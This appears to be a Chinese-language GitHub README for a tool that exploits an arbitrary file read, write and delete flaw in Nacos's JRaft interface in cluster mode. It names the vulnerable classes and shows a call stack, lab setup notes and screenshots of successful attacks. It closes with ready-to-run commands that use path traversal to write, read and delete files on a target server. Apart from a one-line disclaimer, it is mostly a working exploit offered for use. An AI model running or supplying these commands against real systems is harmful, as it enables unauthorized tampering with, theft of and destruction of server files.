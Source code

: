 #### Nacos JRaft 任意文件读写

一些操作信息记录

```java
com.alibaba.nacos.core.storage.kv.FileKvStorage实现了com.alibaba.nacos.core.storage.kv.KvStorage，这是任意文件读写位置

com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#onApply任意文件读写调用点

com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#group返回了naming_persistent_service表示调用的group

读文件方法：
com.alibaba.nacos.core.storage.kv.FileKvStorage#get

写文件方法：
com.alibaba.nacos.core.storage.kv.FileKvStorage#put
 
任意文件读取走的是com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#onRequest
ReadRequest和WriteRequest在com.alibaba.nacos.core.distributed.raft.NacosStateMachine#onApply中选择调用onApply还是onRequest
```

#### BasePersistentServiceProcessor的onApply调用堆栈

```java
TomcatEmbeddedWebappClassLoader@4a8355dd
    @com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor.onApply()
        at com.alibaba.nacos.core.distributed.raft.NacosStateMachine.onApply(NacosStateMachine.java:122)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.doApplyTasks(FSMCallerImpl.java:597)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.doCommitted(FSMCallerImpl.java:561)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.runApplyTask(FSMCallerImpl.java:467)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.access$100(FSMCallerImpl.java:73)
        at com.alipay.sofa.jraft.core.FSMCallerImpl$ApplyTaskHandler.onEvent(FSMCallerImpl.java:150)
        at com.alipay.sofa.jraft.core.FSMCallerImpl$ApplyTaskHandler.onEvent(FSMCallerImpl.java:142)
        at com.lmax.disruptor.BatchEventProcessor.run(BatchEventProcessor.java:137)
        at java.lang.Thread.run(Thread.java:748)
```

#### 注册group类

```java
com.alibaba.nacos.core.distributed.raft.JRaftServer#createMultiRaftGroup
```

#### 只有集群模式有漏洞

开启集群模式

使用MySQL数据库，cluster.conf配置文件中只写入本机IP地址：10.10.87.157:8848，然后启动：sh startup.sh

```
https://nacos.io/zh-cn/docs/cluster-mode-quick-start.html
```

#### 写入成功截图

![iShot_2024-08-26_17.40.21](./iShot_2024-08-26_17.40.21.png)

![iShot_2024-08-26_17.41.40](./iShot_2024-08-26_17.41.40.png)

#### 读取文件截图

![iShot_2024-08-29_13.11.33](./iShot_2024-08-29_13.11.33.png)

#### 删除文件截图

![iShot_2024-08-29_13.13.35](./iShot_2024-08-29_13.13.35.png)

![iShot_2024-08-29_13.14.39](./iShot_2024-08-29_13.14.39.png)

注意：工具仅供学习使用，请勿滥用，否则后果自负！

**食用方式 **

写文件

```shell
java -jar NacosFileReadWrite.jar http://192.168.90.1:8848/ 7848 write ../../../../../../tmp/test.txt 12341123413
```

读文件

```shell
java -jar NacosFileReadWrite.jar http://192.168.90.1:8848/ 7848 read ../../../../../../tmp/test.txt
```

删文件

```shell
java -jar NacosFileReadWrite.jar http://192.168.90.1:8848/ 7848 delete ../../../../../../tmp/test.txt
```

[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
[https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)

[奇安信攻防社区-Nacos (butian.net)](https://forum.butian.net/article/570)
